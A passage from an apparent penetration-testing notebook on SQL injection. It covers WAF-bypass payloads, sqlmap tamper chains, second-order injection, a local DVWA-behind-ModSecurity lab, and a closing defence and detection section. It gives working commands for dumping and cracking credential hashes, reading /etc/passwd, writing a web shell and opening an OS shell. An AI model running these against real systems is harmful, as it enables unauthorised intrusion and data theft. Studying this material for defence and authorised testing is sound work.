| `--time-sec 5` | 5 | Delay threshold for time-based detection; raise it on slow/jittery networks to avoid false positives. |

**A tuned detection command** for a suspected MySQL, blind-only target with a noisy page:

```bash
sqlmap -r req.txt -p query --dbms=mysql --technique=BT \
       --level=5 --risk=2 --string="results for" \
       --random-agent --batch -v3
# -v3 shows the actual payloads sqlmap sends — read these to learn and to build a manual PoC
```

Reading `-v3` output is how you *learn* what worked; never treat sqlmap as a black box on a real
engagement.

## Part 10: Feeding sqlmap Through a WAF — Tamper Scripts

Everything from Parts 3–4 (the bypass taxonomy) is built into sqlmap as **tamper scripts** —
small Python modules that transform each payload on the way out. This is where the WAF-bypass and
automation halves of the chapter meet. List them:

```bash
sqlmap --list-tampers
```

```text
* space2comment.py     Replaces space with /**/
* between.py           Replaces '> N' with 'BETWEEN N+1 AND ...' and '=' with 'BETWEEN'
* charencode.py        URL-encodes all characters
* charunicodeencode.py Unicode-URL-encodes non-encoded characters
* randomcase.py        Random-cases each keyword character
* modsecurityversioned.py  Wraps the query in a MySQL versioned comment /*!.....*/
* modsecurityzeroversioned.py Wraps in /*!00000...*/
* space2mysqlblank.py  Replaces space with a random blank char from MySQL's set
* apostrophemask.py    Replaces ' with its UTF-8 full-width counterpart
* equaltolike.py       Replaces '=' with 'LIKE'
* ...
```

Chain the tampers that match the filter you fingerprinted in Part 2 (order matters — they apply
left to right):

```bash
sqlmap -r req.txt -p query --dbms=mysql \
  --tamper=between,randomcase,modsecurityversioned,space2comment \
  --random-agent --level=5 --risk=2 --batch
```

| Tamper | Bypasses | Maps to Part 3 layer |
| --- | --- | --- |
| `space2comment`, `space2mysqlblank` | whitespace signatures | 3.1 |
| `randomcase` | case-sensitive keyword rules | 3.2 |
| `charencode`, `charunicodeencode` | raw-byte matching | 3.3 |
| `modsecurityversioned` | keyword matching (MySQL) | 3.1 / 3.2 |
| `between`, `equaltolike` | `=` and comparison operators | 3.4 |
| `apostrophemask`, `apostrophenullencode` | quote filtering | 3.3 |

Add throttling and IP-rotation flags when a WAF rate-limits: `--delay=2` (seconds between
requests), `--random-agent`, and `--tor`/`--proxy` where authorised. **Never** point tamper-armed
sqlmap at anything outside your scope — WAF evasion plus automation is exactly the loud,
potentially destructive combination the ethics rules exist to constrain.

## Part 11: Second-Order Mode and the Dangerous Primitives

sqlmap can handle **second-order** injection natively: you inject on one URL/request and tell it
where the effect *surfaces*:

```bash
sqlmap -r register.txt -p username \
  --second-url "http://target.example.com/admin/users" --batch
# or, for a full request that triggers the read sink:
sqlmap -r register.txt -p username --second-req read_sink.txt --batch
```

sqlmap injects into `username` on the first request, then fetches the second URL/request to
observe whether the payload fired on the read path — automating the manual trace from Part 6.

**Extraction flags** (use the least that proves impact):

| Flag | Effect |
| --- | --- |
| `--banner` | DBMS version banner — minimal, high-value proof |
| `--current-user` `--current-db` | Who the app connects as, and to which DB |
| `--is-dba` | Is the DB account an administrator? (impact signal) |
| `--dbs` | List databases |
| `--tables -D shopdb` | List tables in a database |
| `--columns -T users -D shopdb` | List columns |
| `--dump -T users -D shopdb -C username,password` | Dump specific columns (scope it!) |
| `--dump-all` | Everything — almost never appropriate on a real target |

**The dangerous primitives — permission-gated.** Where the DBMS, privileges, and configuration
allow, sqlmap can go beyond reading data:

```bash
sqlmap -r req.txt --file-read="/etc/passwd"        # read a server file (needs FILE priv)
sqlmap -r req.txt --file-write="shell.php" --file-dest="/var/www/html/s.php"  # write a file
sqlmap -r req.txt --os-shell                        # attempt an interactive OS command shell
sqlmap -r req.txt --sql-shell                       # interactive SQL prompt over the injection
```

`--os-shell` typically works by writing a web shell into the webroot (via `INTO OUTFILE` on MySQL
with `FILE` privilege and a known writable path) or by abusing stacked queries and
`xp_cmdshell`/`sp_OACreate` on MSSQL. These are powerful and **loud, persistent, and
potentially destructive** — they write files to the target. Treat them as demonstrations you run
only with explicit written authorisation, and clean up anything you drop. For a bug-bounty
report, a `--banner` and one redacted proof row is almost always sufficient impact; you do not
need `--os-shell` to prove the bug, and running it uninvited can violate program rules and the
law.

## Part 12: A Fully Worked Hands-On Lab — WAF-Evaded Extraction With sqlmap and by Hand

This lab reproduces the whole chapter end-to-end against an intentionally vulnerable app behind a
ModSecurity/CRS reverse proxy. Build it locally; never practise on systems you don't own.

**Lab setup (Docker).** A DVWA-style app behind an nginx + ModSecurity front:

```bash
mkdir sqli-waf-lab && cd sqli-waf-lab
# Vulnerable app (DVWA) on 8080
docker run -d --name dvwa -p 127.0.0.1:8080:80 vulnerables/web-dvwa
# ModSecurity + CRS reverse proxy in front, on 8000, upstreaming to DVWA
docker run -d --name waf -p 127.0.0.1:8000:8080 \
  -e BACKEND="http://host.docker.internal:8080" \
  -e PARANOIA=1 -e BLOCKING_PARANOIA=1 \
  owasp/modsecurity-crs:nginx
```

Log in to DVWA (admin/password), set security to **medium**, and grab a session cookie. Target is
now `http://127.0.0.1:8000/vulnerabilities/sqli/`.

**Step 1 — Confirm the WAF is in the path and characterise it.**

```bash
wafw00f http://127.0.0.1:8000/ -a
```

```text
[+] The site http://127.0.0.1:8000/ is behind ModSecurity (OWASP CRS) WAF.
```

Probe by hand (through Burp or curl), watching status codes:

```bash
BASE="http://127.0.0.1:8000/vulnerabilities/sqli/"
CK="Cookie: security=medium; PHPSESSID=abcd1234"

curl -s -o /dev/null -w "%{http_code}\n" -H "$CK" "$BASE?id=1&Submit=Submit"
# 200  (baseline)
curl -s -o /dev/null -w "%{http_code}\n" -H "$CK" "$BASE?id=1' UNION SELECT 1,2-- -&Submit=Submit"
# 403  (CRS rule 942xxx SQLi ruleset blocks the literal UNION SELECT)
curl -s -o /dev/null -w "%{http_code}\n" -H "$CK" "$BASE?id=1'/**/UnIoN/**/SeLeCt/**/1,2-- -&Submit=Submit"
# 200  (comment+case obfuscation slips past this paranoia-1 config)
```

You have now empirically confirmed: CRS blocks the raw `UNION SELECT`, but a
whitespace-plus-case obfuscation (Part 3.1 + 3.2) passes at paranoia level 1.

**Step 2 — Manual extraction with the working bypass.** Confirm column count and pull the DB
version, proving execution (not just passage):

```text
GET .../sqli/?id=1'/**/UnIoN/**/SeLeCt/**/1,@@version-- -&Submit=Submit
```

```html
<pre>ID: 1'/**/UnIoN/**/SeLeCt/**/1,@@version-- -
First name: 1
Surname: 5.7.31-0ubuntu0.18.04.1</pre>
```

Real data returned through the WAF — the bypass executes. For a report you would stop near here
with a `@@version` and a single redacted row as minimal proof.

**Step 3 — Automate the rest with sqlmap + a matching tamper chain.** Save the authenticated
request to `req.txt` (via Burp *Copy to file*), then:

```bash
sqlmap -r req.txt -p id --dbms=mysql \
  --tamper=space2comment,randomcase \
  --technique=U --level=2 --batch -v3
```

Annotated output (trimmed to the important lines):

```text
[INFO] loading tamper module 'space2comment'
[INFO] loading tamper module 'randomcase'
[INFO] testing connection to the target URL
[INFO] testing if GET parameter 'id' is dynamic
[INFO] GET parameter 'id' appears to be dynamic
[INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (MySQL)
[PAYLOAD] 1%2f%2a%2a%2fuNIon%2f%2a%2a%2fsELECt ...      <-- tampered, WAF-evading payload
[INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[INFO] the back-end DBMS is MySQL
[INFO] fetching banner
banner: '5.7.31-0ubuntu0.18.04.1'
```

Then enumerate, scoped tightly:

```bash
sqlmap -r req.txt -p id --dbms=mysql --tamper=space2comment,randomcase \
  --technique=U --batch --current-db
# current database: 'dvwa'

sqlmap -r req.txt -p id --dbms=mysql --tamper=space2comment,randomcase \
  --technique=U --batch -D dvwa --tables
# tables: users, guestbook

sqlmap -r req.txt -p id --dbms=mysql --tamper=space2comment,randomcase \
  --technique=U --batch -D dvwa -T users -C user,password --dump
```

```text
Database: dvwa
Table: users
[5 entries]
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |   <-- sqlmap auto-cracked the MD5
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
+---------+---------------------------------------------+
```

sqlmap detected the MD5 hashes and offered a dictionary crack — note it recovered `password` and
`abc123`. On a real target you would dump only what proves impact (one row, redacted) and stop.

**Step 4 — Prove the tamper mattered.** Re-run *without* tampers to show the WAF blocks vanilla
sqlmap, which is the evidence that the WAF bypass — not just the SQLi — is real:

```bash
sqlmap -r req.txt -p id --dbms=mysql --technique=U --batch
# [CRITICAL] ... 403 Forbidden ... it is not possible to detect ... (WAF/IPS may be blocking)
```

That contrast — blocked without tampers, dumping with them — is exactly the story a strong report
tells.

## Part 13: Detection & Defense Angle

Everything above is offense; this consolidated section is how the same activity is *seen and
stopped*. It is deliberately one section (per the authoring standard), covering the whole
defensive picture rather than sprinkling blue-team notes everywhere.

**The only real fix is at the query layer.** WAFs, obfuscation detection, and monitoring are all
compensating controls that this chapter has just shown how to defeat. The vulnerability is
eliminated only by **parameterised queries / prepared statements** everywhere user-influenced
data reaches SQL — *including the second-order read sinks*, which are the ones developers forget
because the data "came from our database." Supporting controls:

- **Parameterise every sink, including reuse of stored data.** The Part 6 second-order bug exists
  purely because the read path concatenated a stored value. Prepared statements on *that* query
  close it regardless of what was stored.
- **Least privilege for the DB account.** The app's database user should not have `FILE`
  privilege (kills `--file-read`/`--os-shell` via `INTO OUTFILE`), should not be a DBA, and
  should be scoped to only the schemas it needs. This turns a catastrophic RCE into, at worst, a
  bounded data read.
- **Disable stacked queries / `xp_cmdshell`** and remove dangerous stored procedures where not
  required — this removes sqlmap's `--os-shell`/`--sql-shell` avenues on MSSQL.
- **WAF as depth, tuned and monitored** — raise CRS paranoia thoughtfully (higher paranoia
  catches more obfuscation but raises false positives), keep managed rules updated, and treat
  *every* block as telemetry, not a solved problem.

**Detection telemetry** — what defenders should log and alert on:

| Signal | Why it indicates SQLi/WAF-evasion |
| --- | --- |
| Spikes of `403`/`406` from one IP/session | Someone iterating bypass payloads (Part 5 loop) |
| `UNION`, `SLEEP(`, `information_schema`, `@@version` in params/logs | Classic SQLi tokens, even obfuscated variants after normalisation |
| Request bodies with `/**/`, version comments `/*!...*/`, heavy hex `0x...` | Obfuscation layers from Part 3 |
| Duplicate parameters, odd `Transfer-Encoding`, mismatched `Content-Type` | HTTP-layer evasion from Part 4 |
| DB errors (`You have an error in your SQL syntax`) in app logs | Failed/succeeding injection probing — never expose these to users |
| Sudden query latency spikes / many `SLEEP`-shaped delays | Time-based blind extraction in progress |
| `User-Agent: sqlmap/...` or default sqlmap fingerprints | Un-obfuscated automated tooling (defeated by `--random-agent`, so absence proves nothing) |

**IR use case:** when investigating a suspected breach, correlate a burst of WAF blocks followed
by a burst of *allowed* similar requests — that inflection is often the moment an attacker's
Part-5 tuning loop found the working bypass. Database query logs (or a DB activity monitor)
showing `information_schema` reads from the web app's account are strong corroboration.

**Defense-in-depth flow:**



Note the highlighted box: the WAF (B) is first and weakest; the parameterised query (D) is the
control that actually removes the bug. Everything this chapter taught about evasion is precisely
why you must not rely on B.

## Part 14: Common Pitfalls

- **Treating a 200 as success.** "Not blocked" is not "executed." Always confirm a bypass changed
  the query (differential, delay, extra row) before trusting it.
- **Over-stacking bypass layers.** Five transformations that break the SQL syntax are worse than
  two that work. Add layers only as the filter forces you to (Part 5, step 6).
- **`sqlmap -u URL --dump` on a real target.** Drops auth, CSRF, and body; usually fails and is
  loud. Use `-r req.txt`, scope with `-p`, and route through `--proxy` to see what it does.
- **Running `--risk=3` or `--os-shell` uninvited.** These can modify data or drop files —
  destructive, possibly illegal, and almost never necessary to prove impact.
- **Ignoring second-order surface.** Fuzzing only live parameters misses stored payloads; always
  seed canaries into stored fields and walk the read paths.
- **Forgetting the DB dialect.** A MySQL `#` comment, `0x` literal, or `/*!...*/` version comment
  won't behave the same on PostgreSQL/MSSQL/Oracle. Fingerprint the backend, then pick payloads.
- **Payload length blindness in second-order.** Stored fields truncate; a payload that fits in a
  live parameter may be silently cut in storage. Use compact synonyms and hex.
- **Dumping everything.** `--dump-all` on a customer database is a scope and privacy violation.
  Extract the minimum that proves the finding.

## Part 15: Final Revision / Summary

- A **WAF** is a request-inspection pipeline that **normalises → tokenises → signature-matches →
  scores → decides**. Every bypass exploits the gap between how the WAF normalises and how the DB
  parses (Part 1).
- **Fingerprint before you fight:** identify the product (`wafw00f`, headers), then probe
  empirically to learn the specific filter's shape (Part 2). Keep probing minimal and in-scope.
- The **bypass taxonomy** stacks layers: whitespace/comments (3.1), case/keyword mutation (3.2),
  encoding — especially hex for string values (3.3), logical/math equivalents (3.4), and function
  synonyms (3.5). MySQL version comments `/*!...*/` are a standout primitive.
- **HTTP-layer evasion** (Part 4) — parameter pollution, verb/content-type games, chunked bodies,
  oversized bodies — attacks the plumbing when the payload can't be reshaped further.
- Build bypasses with a **disciplined loop** (Part 5): baseline → boundary → isolate → substitute
  one layer → confirm execution → stack minimally → record.
- **Second-order (stored) SQLi** (Part 6) decouples the *write* sink from the *read* sink; naive
  parameterisation on write doesn't help, scanners miss it, and it hides high-value surface. Seed
  canaries into stored fields and walk the read paths.
- **sqlmap** (Parts 7–11) is a differential detection + exploitation engine. Drive it with `-r
  req.txt`, scope with `-p`, tune with `--level/--risk/--technique/--dbms`, evade WAFs with
  `--tamper`, handle stored injection with `--second-url/--second-req`, and treat `--os-shell`/
  file writes as permission-gated, destructive last resorts.
- **Defense** (Part 13): the *only* real fix is parameterised queries at **every** sink including
  stored-data reuse; least-privilege DB accounts bound the blast radius; WAFs and logging are
  depth and telemetry, not a cure.

## Part 16: Cheat Sheet / Quick Reference

**Whitespace / comment substitutes (space →):**

```text
/**/    %09 %0a %0b %0c %0d    %a0    +    /*!50000...*/
```

**String-value obfuscation (no quotes):**

```sql
0x61646d696e                       -- hex 'admin' (MySQL)
CHAR(97,100,109,105,110)           -- char-code rebuild (portable)
```

**Operator / function synonyms:**

```text
OR   -> ||        AND  -> &&        =    -> LIKE / BETWEEN / <>
SLEEP(5) -> BENCHMARK(5000000,MD5(1))
SUBSTRING -> MID / SUBSTR / LEFT      ASCII -> ORD / HEX
--  -> #  (MySQL EOL comment)
```

**Stacked MySQL bypass template:**

```sql
'/*!50000UnIoN*/%0a/*!50000SeLeCt*/%0acol1,col2%0a/*!50000FrOm*/%0atbl%23
```

**wafw00f:**

```bash
wafw00f https://target -a         # -a: test all signatures
```

**sqlmap core:**

```bash
sqlmap -r req.txt -p PARAM --batch                 # drive a captured request
sqlmap -r req.txt -p PARAM --dbms=mysql --technique=BT --level=5 --risk=2   # tune detection
sqlmap -r req.txt -p PARAM --tamper=space2comment,randomcase,between        # WAF evasion
sqlmap -r req.txt -p PARAM --second-url URL         # second-order
sqlmap -r req.txt --proxy http://127.0.0.1:8080     # route through Burp
sqlmap --list-tampers                               # see all tamper scripts
```

**sqlmap extraction (least → most):**

```bash
--banner  --current-user  --current-db  --is-dba
--dbs  |  -D db --tables  |  -D db -T t --columns  |  -D db -T t -C c1,c2 --dump
```

**Tamper → filter map:**

```text
space2comment / space2mysqlblank  -> whitespace rules
randomcase                        -> case-sensitive keywords
charencode / charunicodeencode    -> raw-byte matching
modsecurityversioned              -> MySQL keyword rules (/*!...*/)
between / equaltolike             -> = and comparison operators
apostrophemask / apostrophenullencode -> quote filtering
```

## Part 17: Practice Labs & Resources

Train these exact skills, not generic SQLi:

- **PortSwigger Web Security Academy — SQL injection labs:** work the *blind* and *filter/WAF*
  labs especially: "SQL injection with filter bypass via XML encoding" and the blind
  time/boolean labs — they force the obfuscation and inference this chapter teaches. The Academy
  is free and the gold standard for methodical practice.
- **PortSwigger — second-order / stored:** practise tracing a write sink to a read sink on the
  labs where injected data resurfaces on a different page.
- **TryHackMe:** "SQL Injection Lab", "SQLMAP", and "Advanced SQL Injection" rooms — the SQLMAP
  room walks the exact `-r`/`--tamper`/`--dump` workflow from Parts 8–12.
- **HackTheBox:** the *starting-point* and web-track machines that gate on SQLi + credential
  reuse; several require exactly the WAF-aware, request-file-driven sqlmap workflow here.
- **DVWA / OWASP Juice Shop:** DVWA at *medium/high* security reproduces the filter-escalation of
  Part 3; put a ModSecurity/CRS container in front (as in the Part 12 lab) to practise tamper
  chains. Juice Shop's SQLi challenges reward manual payload crafting.
- **sqlmap's own `--wizard`:** run sqlmap against a local DVWA to read `-v3` output and *see* how
  detection reasons — the fastest way to stop treating it as a black box.
- **HackerOne / Bugcrowd disclosed reports:** filter public reports for "SQL injection" and read
  how real bounties chained WAF bypass or second-order injection into impact — pattern-matching
  real reports is how you learn what a triager wants to see.

Chapter 4 of this notebook moves from SQL injection to **OS command injection** — the next rung
of the injection ladder, where user input reaches a shell instead of a query, and where many of
the same obfuscation and filter-bypass instincts you built here carry directly over.
